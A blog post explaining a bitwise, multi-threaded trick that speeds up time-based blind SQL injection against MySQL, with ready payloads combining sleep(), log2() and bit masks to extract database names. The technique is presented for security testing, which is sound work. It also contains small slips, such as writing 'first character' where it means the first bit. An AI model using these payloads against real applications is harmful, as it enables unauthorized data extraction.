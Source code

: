 ```yaml
---
title: My Bitwise Trick for a Faster SQL Injection
layout: post
date: '2020-03-02 08:49:45'
---
```


Hello all,

I want to share a trick that helps to find a char of a string under 7 seconds during a time based sql injection exploitation as a blog post. Some knowledge about bitwise coding interview questions, logarithms and another sql injection technique  helped me to develop this simple trick. Couple of months ago, it came into my mind to create this trick but I couldn't find an oppurtunity to test it. Obviously, connection issues are ignored.

Let me explain this trick as simple as possible...

**Other Time Saver SQL injection Technique:**

10 years ago a document of sql injection technique was shared by  Canberk Bolat on the following page:  
[https://www.webguvenligi.org/docs/bsqli/2_istekte_blind_sql_inj.pdf](https://www.webguvenligi.org/docs/bsqli/2_istekte_blind_sql_inj.pdf)

That technique helps to decrease number of request to retrive information from database. It helps to find the length of the string by putting inside of the sleep() function itself , then using custom binary search techniques to findout the characters of the string.

**Bitwise Trick:**

As I wrote in my previous blog post last year, the bitwise shifting technique for sql injection as follows: 

1. Create a byte which has only one bit is set
2. Shift it for 7 times
3. AND the generated byte for each shift with unknown character
4. If the result is one, then we will know that the bit is set :)

**Let's look into the pseudo code given below:**

```cpp
for(int i=0; i<=7; i++){
    if (CHARACTER & (1 << (i))) 
        cout << "1"; 
    else
        cout << "0"; 
}
```

If you want to check the previous post in detail, link is shared below:
- [https://cems.fun/2019/04/17/sql-injection-for-competitive-programmers.html](https://cems.fun/2019/04/17/sql-injection-for-competitive-programmers.html)
Please kindly see the **2.3) Bitwise Trick** part of that blog post.


**The Tricky Technique**

Let me explain shortly the technique itself. 
By using this method; 

1 character can be found up to 7 seconds, if all bits are set in the worst case like 11111111.

For the first character of database name;

Thread 1: 
```sql
select(ord(substr(database(),1,1))) & 1<<0;
```
>If bit is set then it returns 1. Else it returns NULL.

Thread 2: 
```sql
select(ord(substr(database(),1,1))) & 1<<1;
```
>If bit is set then it returns 2. Else it returns NULL.

Thread 3: 
```sql
select(ord(substr(database(),1,1))) & 1<<2;
```
>If bit is set then it returns 4. Else it returns NULL.

Thread 4: 
```sql
select(ord(substr(database(),1,1))) & 1<<3;
```
>If bit is set then it returns 8. Else it returns NULL.

Thread 5:
```sql
select(ord(substr(database(),1,1))) & 1<<4;
```
>If bit is set then it returns 16. Else it returns NULL.

Thread 6: 
```sql
select(ord(substr(database(),1,1))) & 1<<5;
```
>If bit is set then it returns 32. Else it returns NULL.

Thread 7: 
```sql
select(ord(substr(database(),1,1))) & 1<<6;
```
>If bit is set then it returns 64. Else it returns NULL.

Thread 8: 
```sql
select(ord(substr(database(),1,1))) & 1<<7;
```
>If bit is set then it returns 128. Else it returns NULL.


**First Problem of This Technique**
So if we put the query inside of sleep() then is it gonna sleep for 128 seconds?!

if we do yes, but we won't.

We are able to use Logarithm in MySQL as follows:
The output of;
```sql
select LOG2(32);
```
query is 5 as you can see on the second query of the following screenshot:

![]({{ site.url }}/assets/sqli/1.png)


As seen on the screenshot if bit is not set, query returns 'NULL'.

**Second Problem of This Technique**

We shouldn't use log2 for the first character. 

Because; 
If we calculate the log2(1) then the result  would be  0 so we won't be able to understand if the bit is set or not. 

That means, we shouldn't do it for the first character but all others are okay...

Long story short the final payload would be shared below:
```sql
select(log2(ord(substr(database(),1,1)) & 1<<3));
```

If response of the following query delayed then it means Kth bit of Nth char of database name is 1 otherwise it is 0:

```sql
select(sleep(log2(ord(substr(database(),1,1)) & 1<<5)));
```

The screenshot which is shared below shows the delay (5.0 sec) which means the bit is set:

![]({{ site.url }}/assets/sqli/2.png)


```sql
mysql> exit
Bye
```
